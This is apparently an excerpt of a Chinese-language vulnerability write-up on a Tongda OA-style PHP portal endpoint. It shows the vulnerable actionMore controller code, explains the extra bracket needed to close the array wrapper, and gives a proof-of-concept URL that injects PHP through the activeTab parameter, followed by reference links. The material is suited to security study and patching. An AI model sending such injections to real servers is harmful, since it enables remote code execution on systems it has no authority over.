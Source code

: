 ```php
    public function actionMore($id, $module, $activeTab, $curnum, $pagelimit, $keyword)
    {
        Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
        $id = modules\portal\controllers\intval($id);
        $curnum = modules\portal\controllers\intval($curnum);
        $pagelimit = modules\portal\controllers\intval($pagelimit);
        $keyword = modules\portal\controllers\td_filterWords($keyword);

        if (empty($id)) {
            return modules\appdesign\models\AppUtils::error(modules\portal\controllers\_("未指定门户组件"));
        }

        $component = new modules\portal\models\PortalComponent();
        $timetype = "";

        if (!$module) {
            $component = modules\portal\models\PortalComponent::find()->where(array("id" => $id))->one();
            $module = $component->alias;
        }

        $activeTab = ($activeTab ? $activeTab : "");

        if ($module == "video") {
            $activeTab = "More";
        }

        $data = $component->GetData($id, $module, $activeTab, $curnum, $pagelimit, $timetype, "", "", "", "", $keyword);
        $dataBacks = array("status" => 1, "data" => $data);
        $this->dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBacks);
        return $this->dataBack;
    }
```

但是需要注意到这边的dataBacks又用了一层array来包裹，所以在做括号闭合时，要多加一层括号，poc如下：

```php
/general/appbuilder/web/portal/gateway/more?activeTab=%e5'.var_dump(111)));/*&id=1&module=Zhidao
```

### 参考文章

[https://cloud.tencent.com/developer/article/2200049](https://cloud.tencent.com/developer/article/2200049)

[https://worktile.com/kb/p/27611](https://worktile.com/kb/p/27611)

[https://mp.weixin.qq.com/s/nOQuqt\_mO0glY-KALc1Xiw](https://mp.weixin.qq.com/s/nOQuqt_mO0glY-KALc1Xiw)
